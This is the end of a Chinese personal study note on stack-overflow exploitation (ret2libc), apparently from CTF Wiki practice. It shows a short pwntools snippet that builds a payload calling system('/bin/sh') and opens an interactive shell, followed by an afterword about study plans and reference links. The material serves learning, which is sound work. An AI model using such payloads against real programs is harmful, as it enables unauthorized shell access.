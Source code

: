 ```python
system_addr = base + libc.dump('system')
payload = flat(['a'*32,system_addr,'aaaa',binsh_addr])
p.sendline(payload)
p.interactive()


```

![image-20220116230246335](栈溢出学习.assets/image-20220116230246335.png)





# 后记

栈溢出暂时看到这里，目前打算的是学广不学深，因为感觉很多基础的东西都没有接触过，对于整个知识体系还没有建立起来，慢慢学的东西多了，见识的多了，汇编之类的看的多了，有自己的认识了，再去看深的东西可能会更好一点吧。

所以ctfwiki剩下的中级ROP、高级ROP以及花式栈溢出之后再看了。加油加油。感觉自己的汇编也还是不太行，得慢慢多看汇编了。





# 参考链接

https://www.jianshu.com/p/5092d6d5caa3

https://www.freebuf.com/news/182894.html